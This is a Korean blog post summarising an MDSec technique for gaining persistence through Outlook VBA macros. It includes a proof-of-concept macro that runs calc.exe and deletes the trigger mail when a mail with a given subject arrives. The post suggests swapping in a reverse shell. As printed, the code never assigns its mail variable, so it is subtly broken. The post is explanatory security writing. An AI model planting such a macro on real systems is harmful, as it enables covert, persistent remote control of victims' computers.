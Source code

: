 ```yaml
---

title: "[하루한줄] Outlook Mail based Persistence access"

author: Fabu1ous

tags: [Fabu1ous, outlook, email, persistence access, windows]

categories: [1day1line]

date: 2020-11-25 18:00:00

cc: true

index_img: /img/1day1line.png
---
```




## URL

[A Fresh Outlook on Mail Based Persistence](https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/)



## Target

Windows 10 Outlook



## Explain

Outlook은 Microsoft Office의 이메일 클라이언트로 일정관리, 연락처 관리, 일지 등의 다양한 기능을 제공합니다. 그중 다른 Office 제품들과 마찬가지로 Outlook은 VBA(Visaul Basic for Application) 기반 매크로를 만들어 사용하는 기능이 있고, 해커는 이를 악용해 persistence access를 얻을 수 있습니다.



Persistence access란 해커가 victim에 initial access를 획득한 이후에도 지속적으로 access 할 수 있는 상태입니다. 특정 제목의 이메일이 도착하면 트리거되는 악성 매크로를 victim에 심어놓으면 해커는 단순히 이메일을 보내는 것 만으로 victim을 원격제어할 수 있습니다.



```visual basic
Option Explicit

Private WithEvents olInboxItems As Items

Private Sub Application_Startup()
    Set olInboxItems = Session.GetDefaultFolder(olFolderInbox).Items
End Sub

Private Sub olInboxItems_ItemAdd(ByVal Item As Object)
    On Error Resume Next
    Dim olMailItem As MailItem
    If TypeOf Item Is MailItem Then
       If InStr(olMailItem.Subject, "MDSec") > 0 Then
            MsgBox "Hack The Planet"
            Shell "calc.exe"
            olMailItem.Delete
        End If
    End If
    Set Item = Nothing
    Set olMailItem = Nothing
End Sub
```

위 POC 코드는 calc.exe를 실행하는 VBA 매크로입니다. 우선 Outlook이 실행됐을 때의 수신 메일함의 상태를 저장합니다. 이후에 새로운 이메일이 추가되면 그 이메일의 제목을 확인하고, 만약 그 제목이 "MDSec"이라면 calc.exe를 실행한 후 해당 이메일을 삭제합니다.



이메일의 제목뿐만 아니라 발신 주소 혹은 내용 등으로 매크로의 트리거 조건을 다양하게 설정할 수 있고, calc.exe 대신 리버스 쉘을 실행하면 해커가 원격제어를 할 수 있게 됩니다. 
